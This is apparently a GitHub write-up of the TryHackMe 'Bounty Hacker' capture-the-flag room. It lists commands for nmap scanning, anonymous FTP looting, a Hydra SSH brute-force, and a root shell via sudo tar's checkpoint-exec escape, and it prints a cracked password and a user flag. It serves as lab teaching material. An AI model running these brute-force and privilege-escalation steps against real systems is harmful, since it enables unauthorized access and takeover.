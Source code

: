 # Bounty Hacker - TryHackMe Writeup  

**Author:** Koushiq Murad  

> **Difficulty:** Easy  
> **Category:** Web / Linux / PrivEsc  
> **Goal:** Gain user & root flags

---

## 🧩 Room Overview
**Bounty Hacker** is a beginner-friendly CTF that mirrors a small real-world engagement: reconnaissance, enumeration, credential attack, SSH foothold, and privilege escalation via a sudo misconfiguration.

> ⚠️ **CTF Etiquette:** Avoid publishing full flag values in public writeups. Below I mask the root flag and keep the user flag as seen in-session. Adjust to your preference.

---

## 🔧 Lab Setup
- Attacker: **Kali Linux** (VM)  
- Connection: **TryHackMe OpenVPN**  
- Target: THM instance `10.10.xx.xx` (IP varies per deployment)

---

## 🔎 Step 1 — Recon with Nmap
Identify open ports & service versions.

```bash
nmap -sC -sV -oN bounty_scan.txt 10.10.xx.xx
```

**Flags:**
- `-sC` — run default scripts (great baseline enumeration)
- `-sV` — detect service versions
- `-oN` — save output to a file

**Findings:**
- **21/tcp FTP** — `vsftpd 3.0.5` (anonymous login allowed)
- **22/tcp SSH** — `OpenSSH 8.2p1`
- **80/tcp HTTP** — `Apache 2.4.41`

---

## 📂 Step 2 — Enumerate FTP
Anonymous login and loot collection.

```bash
ftp 10.10.xx.xx
# username: anonymous
# password: <press Enter>
ls -la
get task.txt
get locks.txt
bye
```

---

## 📝 Step 3 — Loot Analysis
- `task.txt` → reveals **username**: `lin`
- `locks.txt` → a **password wordlist** (likely for SSH)

---

## 🔐 Step 4 — Brute-force SSH (Hydra)
Use the leaked wordlist against SSH.

```bash
hydra -l lin -P locks.txt ssh://10.10.xx.xx -t 4
```

**Result (example):**
```
[22][ssh] host: 10.10.xx.xx  login: lin  password: RedDr4gonSynd1cat3
```

---

## 💻 Step 5 — Initial Foothold (SSH)
```bash
ssh lin@10.10.xx.xx
```

Grab the user flag:

```bash
cat ~/Desktop/user.txt
THM{CR1M3_SyNd1C4T3}
```

---

## 📈 Step 6 — Privilege Escalation
Check sudo permissions:

```bash
sudo -l
```

Output shows `lin` may run **/bin/tar** as root:

```
User lin may run the following commands on host:
    (root) /bin/tar
```

Use the **GTFOBins** technique for `tar` to spawn a root shell:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Confirm and read root flag:

```bash
whoami
# root
cat /root/root.txt
THM{<root_flag_masked>}
```

---

## 🧠 Key Takeaways
- **Recon first**: `nmap -sC -sV` quickly surfaces low-hanging fruit (anonymous FTP).
- **Loot matters**: Seemingly harmless files often reveal **usernames** and **password patterns**.
- **Hydra** is effective for **credential attacks** with custom wordlists.
- **Sudo misconfigs** + **GTFOBins** are core privilege escalation patterns.
- Keep clean notes & save outputs (`-oN`, text files) for repeatability.

---

## 📜 Commands (TL;DR)
```bash
# Recon
nmap -sC -sV -oN bounty_scan.txt 10.10.xx.xx

# FTP
ftp 10.10.xx.xx
# anonymous / <Enter>
ls -la
get task.txt
get locks.txt
bye

# Hydra SSH brute-force
hydra -l lin -P locks.txt ssh://10.10.xx.xx -t 4

# SSH access
ssh lin@10.10.xx.xx

# User flag
cat ~/Desktop/user.txt

# PrivEsc
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# Root flag
whoami
cat /root/root.txt
```

---

## 🗂 Suggested Repo Structure
```
bounty-hacker-writeup/
├─ README.md                  # Short overview & links
├─ Bounty_Hacker_Writeup.md   # This detailed writeup
├─ loot/                      # (optional) sanitized artifacts
│  ├─ task.txt
│  └─ locks.txt
└─ screenshots/               # (optional) images referenced in the MD
```

---

## 📎 References
- GTFOBins — `tar`: https://gtfobins.github.io/gtfobins/tar/
- TryHackMe — Bounty Hacker (room page)

